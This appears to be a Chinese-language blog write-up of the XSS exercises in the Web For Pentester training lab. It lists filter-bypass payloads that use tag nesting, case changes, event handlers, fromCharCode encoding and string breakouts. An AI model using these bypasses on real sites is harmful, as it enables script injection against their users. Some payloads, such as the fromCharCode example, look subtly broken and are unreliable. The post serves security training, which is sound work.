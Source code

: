 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```



### XSS Example 1
直接输出无任何过滤：
** name=\<script>alert(/XSS/)\</script> **
### XSS Example 2
过滤掉了\<script>标签，通过大小写进行绕过：
** name=\<Script>alert(/XSS/)\</Script> **
### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：
**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**
### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：
**name=\<img src=1 onerror="alert(/XSS/)">**
### XSS Example 5
alert被过滤，但prompt、confirm函数可使用；这里同样可以使用String.fromCharCode来绕过
**name=\<img src=1 onerror="confirm(/XSS/)">**
> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
> 针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert(/XSS/);转换为
> String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 88, 83, 83, 47, 41)那么我们的XSS语句就变成了
> **\<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)\</script>** 
> String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串，在harkbar中的XSS功能中有这个功能可直接使用
### XSS Example 6
F12查看元素，发现输出在script标签中 *$a= "hacker";* ，那么直接闭合双引号就好
**name=XSS";alert($a);//**
### XSS Example 7
通过Example 6的方法发现双引号被HTML编码了，而且在$a=''处添加了单引号来申明变量内容，那么同样依照闭合的原则进行payload
name=fdf‘;alert($a);//